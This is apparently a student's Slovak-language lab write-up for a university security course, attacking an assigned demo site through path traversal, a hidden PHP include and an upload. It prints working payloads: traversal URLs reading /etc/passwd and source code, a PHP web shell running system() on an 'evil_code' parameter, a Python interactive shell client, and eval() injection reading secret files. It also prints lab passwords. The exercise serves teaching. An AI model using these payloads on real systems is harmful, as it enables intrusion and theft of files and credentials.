 # Cvičenie 2 BIT

### Fedor Viest
### Cvičenie: Po 10:00

---
---

## 2.1. Nájdite file inclusion zraniteľnosť na stránke “kb.php”

Najprv som skúsil niečo takéto:

```
https://xviest.bit.demo-cert.sk/kb.php?preview=utils/scripts/../../../../../etc/passwd
```

čo by malo vypísať obsah súboru /etc/passwd. Ale dostal som takúto chybu, čo mi to zakazuje.

![](2.1.png)

Ale všimol som si, že sa nachádzam v directory **.kb/approved/**.

```
https://xviest.bit.demo-cert.sk/kb.php?preview=../../kb.php
```

čím som si leakol zdrojový kód kb.php



## 2.2. Analyzujte zdrojový kód stránky samotnej. Identifikujte:
- heslo potrebné pre nahranie nového súboru,
- adresár, do ktorého vie aplikácia zapisovať,
- formát názvu súboru,
- skrytú funkcionalitu stránky.

1. 

Heslo je "**kokodril:)**"

![](2.2_password.png)


2. 3. 

Stránka zapisuje do directory **kb/new**, pričom súbory ukladá ako čas v ktorom boli nahraté a v **.html**. Napríklad keď nahrám súbor 2.10.2023 o 11:20, tak súbor sa uloží ako **202310021120.html**. Stránka podporuje iba formáty html a plaintext. 

![](2.2_files.png)

4. 

Skrytá funkcionalita sa nachádza v dynamic_preview, čo sa dá v URL nastaviť na true a potom sa vykoná include v php kóde

![](2.2_dynamic_preview.png)


## 2.3. Zneužite tieto dve zranitelnosti na nahranie a vykonanie vlastného "web shell" scriptu, napísaného v jazyku PHP. Script:
- používať funkciu system()
- vykonávať pomocou nej príkazy zadané do premennej "evil_code"

Vytvoril som si jednoduchý .txt súbor s takýmto obsahom:

```
fhpbfvbegbqe
ewbwtr
gbwetb
wrntrwbevbeoúvbewr
etbeuwobr
vqrte
qbet
wpbeq

<?php
	echo "ahoj";
?>
```

Tento súbor som nahral na stránku a zaznamenal čas, kedy sa súbor nahral. Potom som sa k nemu dostal pomocou URL:

```
https://xviest.bit.demo-cert.sk/kb.php?preview=../new/202310021217.html&dynamic_preview=1
```

Keď som nastavil dynamic preview tak už sa vypísalo aj "ahoj".

![](2.2_ahon.png)

Súbor som upravil nasledovne:

```
fhpbfvbegbqe
ewbwtr
gbwetb
wrntrwbevbeoúvbewr
etbeuwobr
vqrte
qbet
wpbeq

<?php
    if(isset($_GET['evil_code']))
    {
        system($_GET['evil_code']);
    }
?>
```

$_GET[] berie premenné z URL, to znamená, že potom viem vykonávať príkazy použitím **evil_code=** v URL.

```
https://xviest.bit.demo-cert.sk/kb.php?preview=../new/202310052310.html&dynamic_preview=1&evil_code=ls
```

Pomocou ls /var/www som si vypísal obsah priečinka

```
https://xviest.bit.demo-cert.sk/kb.php?preview=../new/202310052310.html&dynamic_preview=1&evil_code=ls%20/var/www
```

![](image.png)

Tu som si všimol priečinok **secrets** a našiel som svoj tajný súbor: **xviest_01806769.php**, na ktorý viem pristúpiť cez:

```
https://secrets.bit.demo-cert.sk/xviest_01806769.php
```

Aby som mohol príkazy spúštať jednoduchšie a nemusel stále kopírovať z/do URL, spravil som si python script, kde viem rovno napísať príkazy a prepínače, ktoré sa majú vykonať.

```python
import requests
import re


website = "https://xviest.bit.demo-cert.sk/kb.php?preview=../new/{}.html{}"

filename = "202310052310"

options = "&dynamic_preview=1&evil_code="

while 1:
    code = str(input("shell commands: "))
    options += code
    r = requests.get(website.format(filename, options))
    print("Website url: ", r.url)
    if r.status_code == 200:
        output = re.sub(r'<.*?>', '', r.text)
        print("\n\n\n")
        print(output)
        options = "&dynamic_preview=1&evil_code="
    else:
        print("Error: {}".format(r.status_code))
        break
```

![](image-1.png)



## 2.4. Pomocou vlastného web shellu nájdite váš "tajný subor" niekde v adresari /var/www/.
- Nepodarí sa vám ho prečítať cez file inclusion alebo code injection, no môžete ku nemu pristúpiť cez http://secrets.bit.demo-cert.sk/...

Súbor som našiel vo /var/www/secrets

Názov súboru: xviest_01806769.php


## 2.5. Tajny súbor obsahuje code injection zraniteľnosť cez funkciu eval().
- Nájdite ju a získajte pomocou nej pristup ku suboru "/opt/secrets/{ais_login}.txt"

Najprv som skúsil funkcionalitu stránky, kde som si z URL všimol, že sa posielajú 3 php premenné (a, op, b). 
Tak som začal skúsať rôzne príkazy na vyvolanie iného ako default správania. 

Napríklad som skúsil do pola napísať iba ";", čo mi nevrátilo nič, alebo error s **unexpected ;**

Potom som skúšal rozne linux príkazy s tým, že som zároveň aj vyplnil polia číslami, napríklad:
```
5; system('ls')
```

![](image-4.png)

Potom som našiel, že príkazy v command injection útokoch sa dajú kombinovať pomocou **&&**. Pomocou tohto prikazu som si vedel vypísať obsah php súboru:

```bash
5 && system('cat xviest_01806769.php ');
```

![](image-5.png)

Pomocou tohto príkazu, som si vypísal heslo pre môj účet.

```bash
5 && system('cat /opt/secrets/xviest.txt');
```

![](image-6.png)

Heslo: **kabar**
